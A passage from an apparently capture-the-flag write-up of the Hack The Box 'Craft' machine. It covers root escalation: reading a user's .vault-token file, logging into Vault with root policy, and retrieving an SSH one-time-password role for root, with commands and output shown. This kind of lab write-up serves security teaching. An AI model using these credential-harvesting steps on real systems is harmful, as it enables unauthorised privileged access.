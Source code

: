 ```console
gilfoyle@craft:~$ wc -c user.txt 
33 user.txt
```

## root

We start enumerating to see if we can find anything interesting in the home of gilfoyle, and we found a `.vault-token` file (vault is a tool for securely access/store secrets as tokens, passowrds, certificates, etc, to learn more about it go to [Vault project page](https://www.vaultproject.io/)), and try to login to vault with it which goes well.

```console
gilfoyle@craft:~$ cat .vault-token 
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9gilfoyle@craft:~$ vault login
Token (will be hidden): 
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
token_accessor       1dd7b9a1-f0f1-f230-dc76-46970deb5103
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]
gilfoyle@craft:~$ 
```

We go back to the repo of `craft-infra` inside the `vault` folder to see if we can find the secret stored, in it is a small script `secrets.sh` which has exactly what we need:
{% include figure image_path="/assets/images/htb/craft/4-gil.png" %}
with this information we run vault to get the kv if the secret is indeed there:

```console
gilfoyle@craft:~$ vault kv get ssh/roles/root_otp
========== Data ==========
Key                  Value
---                  -----
allowed_users        n/a
cidr_list            0.0.0.0/0
default_user         root
exclude_cidr_list    n/a
key_type             otp
port                 22
```

we know it is a ssh secret for root (that means, we can use it to establish a connection against root over ssh) with an otp key ([One-Time Password](https://en.wikipedia.org/wiki/One-time_password))

we check what options vault provides to use it:
